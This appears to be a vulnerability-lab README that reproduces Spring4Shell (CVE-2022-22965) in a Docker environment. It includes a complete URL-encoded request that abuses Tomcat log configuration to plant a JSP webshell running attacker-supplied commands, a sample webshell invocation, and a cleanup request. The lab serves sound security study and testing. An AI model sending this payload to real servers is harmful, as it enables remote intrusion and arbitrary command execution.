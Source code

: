 # Spring Framework RCE via Data Binding on JDK 9+ (CVE-2022-22965)

A Spring MVC or Spring WebFlux application running on JDK 9+ may be vulnerable to remote code execution (RCE) via data binding. The specific exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. However, the nature of the vulnerability is more general, and there may be other ways to exploit it.

References:

- <https://tanzu.vmware.com/security/cve-2022-22965>
- <https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/>

## Vulnerability Environment

Execute the following command to start a server that uses Spring WebMVC 5.3.17:

```
docker compose up -d
```

After server is started, browse the `http://your-ip:8080/?name=Bob&age=25` to see an example page.

## Vulnerability Reproduce

Send the following request to change the logging configuration in Apache Tomcat and write the log as a JSP file:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

![](1.png)

Then, you can use the JSP webshell to execute arbitrary commands successfully:

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![](2.png)

Noted that you should clear the `class.module.classLoader.resources.context.parent.pipeline.first.pattern` if you don't want the JSP webshell to be large, because every request logging will be written into that file. Send following request to clear the attribute:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```
